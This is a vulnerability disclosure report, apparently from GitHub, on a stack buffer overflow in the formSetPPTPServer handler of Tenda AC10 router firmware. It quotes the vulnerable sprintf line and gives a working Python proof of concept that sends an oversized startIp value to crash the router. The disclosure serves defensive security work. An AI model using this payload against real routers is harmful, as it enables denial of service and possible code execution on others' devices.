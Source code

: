 

# Information

**Vendor of the products:**   Tenda

**Vendor's website:** [首页_腾达(Tenda)官方网站](https://www.tenda.com.cn/)

**Reported by:  **GuoHengyu(2183056014@qq.com)

**Affected products:** AC10 

**Affected firmware version:**  V15.03.06.47

**Firmware download address:** https://down.tendacn.com/uploadfile/AC10/US_AC10V1.0re_V15.03.06.47_multi_TDE.zip

# Overview

A buffer overflow vulnerability exists in the `formSetPPTPServer` function of the Tenda AC10 router. By sending a crafted HTTP request with a malicious `startIp` parameter, a remote attacker can trigger a stack overflow that leads to a segmentation fault. This may result in denial-of-service (DoS) or potentially allow further exploitation.



# Vulnerability details



![image-20250527212202670](4/image-20250527212202670.png)

There is a buffer overflow vulnerability in the `formSetPPTPServer` function of the Tenda AC10 router running firmware version V15.03.06.47.

![image-20250527212234112](4/image-20250527212234112.png)



The program does not perform proper boundary checks on the `pptp_server_start_ip` parameter and uses the following code:

![image-20250527212303494](4/image-20250527212303494.png)

sprintf(pptp_server_c_ip, "%s-%s", pptp_server_start_ip, pptp_server_end_each_ip[3]);

If a `pptp_server_start_ip` parameter longer than 0x170 bytes is provided, then, by manipulating parameters such as `wl24g_work_mode`, `wl5g_work_mode`, `serverEn`, and `endip`,
 the attacker may be able to influence the program's control flow or memory layout, increasing the chances of successful exploitation.it will overflow the target buffer `pptp_server`, potentially causing a segmentation fault. A remote attacker could exploit this issue to cause a denial of service or possibly achieve arbitrary code execution.

# POC

```python
import requests


url = "http://192.168.2.131/goform/SetPptpServerCfg"
payload=b'a'*0x170

params = {
    "wl24g_work_mode": "apclient",
    "wl5g_work_mode": "apclient",
    "serverEn" :"1",
    "startIp": payload,
    "endIp": "aaa"

}
headers = {
    "Host": "192.168.2.131",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:138.0) Gecko/20100101 Firefox/138.0",
    "Accept": "text/plain, */*; q=0.01",
    "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
    "Accept-Encoding": "gzip, deflate, br",
    "X-Requested-With": "XMLHttpRequest",
    "Connection": "keep-alive",
    "Referer": "http://192.168.2.131/main.html",
    "Cookie": "password=jubmji; bLanguage=zh",
    "Priority": "u=0"
}

response = requests.get(url, params=params, headers=headers)
response = requests.get(url, params=params, headers=headers)

```

![image-20250527212902547](4/image-20250527212902547.png)

